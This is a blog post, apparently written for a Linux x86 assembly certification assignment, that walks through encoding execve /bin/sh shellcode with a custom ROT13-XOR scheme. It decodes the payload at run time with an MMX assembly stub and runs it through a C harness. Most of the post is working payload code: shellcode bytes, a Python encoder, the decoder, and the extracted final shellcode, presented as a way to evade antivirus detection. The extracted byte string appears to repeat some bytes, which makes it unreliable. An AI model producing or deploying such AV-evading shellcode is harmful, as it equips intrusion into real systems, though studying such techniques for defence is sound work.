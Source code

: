 ```yaml
---
layout: post
title: ROT13_XOR_ENCODER_MMX_DECODER_SHELLCODE – LINUX/X86
excerpt_separator: <!--more-->
---
```

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert Certification
* Student ID: SLAE-1233
* Assignment: 4
* Github: [Kartik Durg](https://github.com/kartikdurg)
<!--more-->

___

In this post I will be using one of my custom encoding schema “ROT13-XOR-Encoder” to encode execve-stack shellcode and also a decoder stub for the same using MMX instruction for shellcode execution.

REFERENCES:

* [Intel architecture manual Vol.1](https://www.intel.com/content/www/us/en/architecture-and-technology/64-ia-32-architectures-software-developer-vol-1-manual.html)
* [The MMX instruction SET](http://www.plantation-productions.com/Webster/www.artofasm.com/Linux/HTML/TheMMXInstructionSet.html)

#### WHY ENCODING FOR SHELLCODE?

During exploitation, our custom shellcode can contain bad characters or null-bytes due to which exploitation fails on the target application. In such cases, an encoding schema can be used to eliminate bad characters or null-bytes present in our shellcode.
Sometimes, encoding will also trick AV’s (Anti-Virus) into believing that your shellcode is not malicious.

In this post we will be encoding the below execve-stack shellcode:

```
"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
```

___

### GENERATING AN ENCODED SHELLCODE:

The python script below represents “ROT13-XOR-Encoder” schema:

```
#!/usr/bin/python

# ROT13 - XOR Encoder

#original execve-stack
shellcode = ("\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80")

rot = 13

encoded = ""
encoded2 = ""

print 'Encoded shellcode ...'

for x in bytearray(shellcode) :
#ROT-13
shell_rot = (x + rot)%256

# XOR Encoding 
xor_rot = shell_rot^0xAA
encoded += '\\x'
encoded += '%02x' %xor_rot

encoded2 += '0x'
encoded2 += '%02x,' %xor_rot

print encoded

print encoded2

print 'Len: %d' % len(bytearray(shellcode))
```

As noticed in the above python script, every byte in shellcode is first incremented by 13 and then we XOR that incremented value with 0xAA to get our final encoded shellcode.

Output:

![](/media/4-encode-1.jpg)

___

### DECODING THE ENCODED SHELLCODE:

To execute the encoded shellcode, a decoder stub was developed in assembly as below using MMX instruction. The advantage of using instructions like MMX,FPU,SSE and SSE2 is that, it has lesser detection rates by AV.

Lets jump into our decoder stub:

```
global _start

section .text
_start:

jmp short call_decoder

decoder1:
pop edi                        ;"edi" now points to "xor_value"
lea esi, [edi +16]             ;"esi" now points to "Shellcode"
xor ecx, ecx
mov cl, 4                      ;Size of our shellcode is 25|"qword" operates 8bytes ata time hence 4*8=32|"loop" 4 times

XOR_decode:
movq mm0, qword [edi]          ;move 8bytes of "xor_value" to mm0
movq mm1, qword [esi]          ;move 8bytes of "Shellcode" to mm1
pxor mm0, mm1                  ;Perform XOR operation
movq qword [esi], mm0          ;overwrite the "Shellcode" with previous results
add esi, 0x8                   ;now "esi" points to next 8bytes of "Shellcode"
loop XOR_decode                ;loop 4 times

decoder2:
lea edi, [edi +8]              ;"edi" now points to "rot_value"
lea esi, [edi +8]              ;"esi" now points to "Shellcode"|"Shellcode" contains previous XOR'ed results
xor ecx, ecx
mov cl, 4                      ;"loop" 4 times

ROT_decode:
movq mm2, qword [edi]          ;move 8bytes of "rot_value" to mm2
movq mm3, qword [esi]          ;move 8bytes of "Shellcode" to mm3
psubb mm3, mm2                 ;Subtract 13 from "Shellcode"
movq qword [esi], mm3          ;overwrite the "Shellcode" with previous results
add esi, 0x8                   ;now "esi" points to next 8bytes of "Shellcode"
loop ROT_decode                ;"loop" 4 times

jmp short Shellcode            ;Execute decoded shellcode

call_decoder:

call decoder1
xor_value: db 0xaa, 0xaa, 0xaa, 0xaa, 0xaa, 0xaa, 0xaa, 0xaa
rot_value: db 13, 13, 13, 13, 13, 13, 13, 13
;Paste your Encoded shellcode below
Shellcode: db 0x94,0x67,0xf7,0xdf,0x96,0x96,0x2a,0xdf,0xdf,0x96,0xc5,0xdc,0xd1,0x3c,0x5a,0xf7,0x3c,0x45,0xca,0x3c,0x44,0x17,0xb2,0x70,0x27
```

To decode the encoded payload we first XOR it and then subtract 13(0xd) from XOR’ed results to get final shellcode.

___

### COMPILING THE ASSEMBLY AND EXTRACTING THE SHELLCODE:

![](/media/4-encode-2.jpg)

```
objdump -d ./mmx-rot-xor-decoder|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-7 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
Output:
"\xeb\x36\x5f\x8d\x77\x10\x31\xc9\xb1\x04\x0f\x6f\x07\x0f\x6f\x0e\x0f\xef\xc1\x0f\x7f\x06\x83\xc6\x08\xe2\xef\x8d\x7f\x08\x8d\x77\x08\x31\xc9\xb1\x04\x0f\x6f\x17\x0f\x6f\x1e\x0f\xf8\xda\x0f\x7f\x1e\x83\xc6\x08\xe2\xef\xeb\x15\xe8\xc5\xff\xff\xff\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\x0d\x0d\x0d\x0d\x0d\x0d\x0d\x0d\x94\x67\x94\x67\xf7\xdf\x96\x96\x2a\xdf\xdf\x96\xc5\xdc\xd1\x3c\x5a\xf7\x3c\x45\xca\x3c\x44\x17\xb2\x70\x27"
```

### EXECUTING THE FINAL SHELLCODE:

```
#include<stdio.h>
#include<string.h>

unsigned char shellcode[] = \
"\xeb\x36\x5f\x8d\x77\x10\x31\xc9\xb1\x04\x0f\x6f\x07\x0f\x6f\x0e\x0f\xef\xc1\x0f\x7f\x06\x83\xc6\x08\xe2\xef\x8d\x7f\x08\x8d\x77\x08\x31\xc9\xb1\x04\x0f\x6f\x17\x0f\x6f\x1e\x0f\xf8\xda\x0f\x7f\x1e\x83\xc6\x08\xe2\xef\xeb\x15\xe8\xc5\xff\xff\xff\xaa\xaa\xaa\xaa\xaa\xaa\xaa\xaa\x0d\x0d\x0d\x0d\x0d\x0d\x0d\x0d\x94\x67\x94\x67\xf7\xdf\x96\x96\x2a\xdf\xdf\x96\xc5\xdc\xd1\x3c\x5a\xf7\x3c\x45\xca\x3c\x44\x17\xb2\x70\x27";

main()
{
printf("Shellcode Length: %d\n", strlen(shellcode));

int (*ret)() = (int(*)())shellcode;

ret();
}
```

Output:

![](/media/4-encode-3.jpg)

___

Exploit-DB: [https://www.exploit-db.com/exploits/45538](https://www.exploit-db.com/exploits/45538)

Link to shellcode.c: [shellcode.c](https://github.com/kartikdurg/SLAE/blob/master/Assignment_0x4/shellcode.c)

Link to shellcode.asm: [mmx-rot-xor-decoder.asm](https://github.com/kartikdurg/SLAE/blob/master/Assignment_0x4/mmx-rot-xor-decoder.asm)

Thank you for reading 🙂

– Kartik Durg